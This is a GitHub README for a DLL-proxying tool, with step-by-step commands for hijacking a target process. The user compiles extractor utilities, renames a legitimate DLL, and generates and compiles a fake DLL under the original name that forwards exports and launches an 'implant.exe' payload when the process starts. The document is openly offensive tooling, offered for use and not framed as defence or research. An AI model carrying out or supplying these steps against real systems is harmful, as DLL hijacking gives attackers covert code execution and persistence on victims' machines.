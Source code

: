 # Custom-DLL-Proxy 

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp** : Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp** : Extracts the exported functions from DLL.

- **maker.sh** : Adds the extracted functions into a template for creating a fake (proxy) DLL.

***Why I Built This DLL Proxy Tool**

I saw that many tools perform all the steps automatically, without giving the user any real control or ability to make changes along the way.
So I decided to build it myself.

# How to Use

**Step 1**  

Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

**Step 2**  

Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```
**Step 3**  

Copy the extracted function names to file.txt.  
> expample file.txt
 
![](img/img1.png)

renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

**Step 4**  

Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
```cmd
x86_64-w64-mingw32-g++ -shared -o example.dll output.cpp
```
After the process is launched,your payload will be executed.

---
**You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.**
